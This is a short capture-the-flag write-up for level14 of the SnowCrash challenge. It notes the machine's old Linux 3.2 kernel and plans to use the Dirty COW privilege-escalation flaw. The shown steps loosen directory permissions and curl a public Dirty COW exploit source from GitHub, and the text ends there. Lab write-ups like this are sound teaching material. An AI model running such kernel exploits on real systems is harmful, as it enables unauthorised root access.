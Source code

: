 # level14

## Recognition

When logging on level14, there is nothing really appealing, though we can look at the linux kernel version.
```bash
level14@SnowCrash:~$ uname -a
Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686 i686 i386 GNU/Linux
```

As we can see [here](https://www.avsecurity.in/dirty-cow-vulnerability-cve-2016-5195/) there is a vulnerability in Linux 3.2 named dirtyc0w that we can exploit.

</br>
</br>

## Exploitation

The exploit part is quite easy for this one, we just have to download a compatible exploit of dirtyc0w, compile it and running. 
```bash
level14@SnowCrash:~$ chmod +rwx .
level14@SnowCrash:~$ curl -fSSL https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c > dirty.c
level14@SnowCrash:~$ 
```